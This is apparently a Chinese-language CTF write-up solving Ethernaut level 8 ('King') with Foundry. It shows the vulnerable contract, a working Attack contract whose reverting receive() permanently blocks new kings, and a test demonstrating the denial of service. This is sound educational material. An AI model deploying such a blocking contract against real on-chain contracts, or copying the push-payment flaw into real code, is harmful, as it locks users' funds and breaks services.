

# Foundry 通关 Ethernaut（8）— King

参加残酷共学打卡活动，记录一下这段时间的收获

## 目标

阻止用户通过发送大于prize 的 value 成为 king (永远滴 king 哈哈哈)

## 漏洞合约

先来看漏洞合约本身，简单概括其核心功能：

1. 三个状态变量：地址类型的 king, uint256 的 prize，地址类型的 owner

2. contructor: 初始化三个状态变量，owner 和 king 都为合约部署者，prize 为部署时转入的value

3. receive : 合约接收到转账且 calldata 为空时触发，当转账值大于当前的 prize 或者 调用者 为 owner 时：

   a. 将转账值发送给当前 king

   b. 更新 king 为当前调用者

   c. 更新 value 为当前转账值

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {
    address king;
    uint256 public prize;
    address public owner;

    constructor() payable {
        owner = msg.sender;
        king = msg.sender;
        prize = msg.value;
    }

    receive() external payable {
        require(msg.value >= prize || msg.sender == owner);
        payable(king).transfer(msg.value);
        king = msg.sender;
        prize = msg.value;
    }

    function _king() public view returns (address) {
        return king;
    }
}
```

## 思路

合约的本身很有意思，初始化了一个king, 然后每当接收的转账大于当前 prize ，就把这个钱转给上一个 king ，然后这个转账人成为下一个king,等待下一个大于prize 的转账，很类似于某些模式

这里要求阻止 新king的更新，由于 在更新前有一个转账操作，我们可以尝试将king设置为一个 合约地址，然后再转账后，在合约的receive/fallback函数进行一些操作，比如直接抛出异常，阻止更新

## foundry 复现

### 1. 攻击合约

```solidity
contract Attack {
    address payable public kingAddress;

    constructor(address payable _address){
        kingAddress = _address;
    }
    
    function attack() public payable{
        kingAddress.call{value: msg.value }("");
    }

    receive() external payable { 
        revert();
    }
}
```

要点：

1. attack 函数：首先进行函数调用，使当前合约地址成为一轮 king
2. receive ： 当后续有人向目标合约转账时，则触发本攻击合约（king）的receive函数抛出异常，阻止更新king值

### 2. 测试脚本

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import {Test, console} from "forge-std/Test.sol";
import {King,Attack} from "../src/King.sol";

contract KingTest is Test {
    King public king;
    Attack public attackContract;
    address public attacker = address(0x123);
    address public user = address(0x456);

    function setUp() external {
        king = new King{value:0.1 ether}();
        payable(attacker).transfer(1 ether);
        payable(user).transfer(1 ether);
        vm.prank(attacker);
        attackContract = new Attack(payable(address(king)));
    }

    function test_attack() public {
        console.log("before",king._king());
        // 切换到 攻击者更改king为攻击合约
        vm.prank(attacker);
        attackContract.attack{value: 0.2 ether}();
        console.log("after attack",king._king());
        // 攻击后，普通用户正常出价，更改 king 失败
        vm.prank(user);
        address(king).call{value: 0.5 ether}("");
        console.log("after user",king._king());
    }
}
```

### 3. 测试

终端输入

```solidity
forge test --match-path test/King.t.sol -vvvv
```



我们可以看到，在 攻击之后，普通用户即使出价更改也不能再改变 king 值

因此，所有合约都要防止 转账地址为合约地址，防止攻击者可以利用 fallback 和 receive 写入恶意逻辑

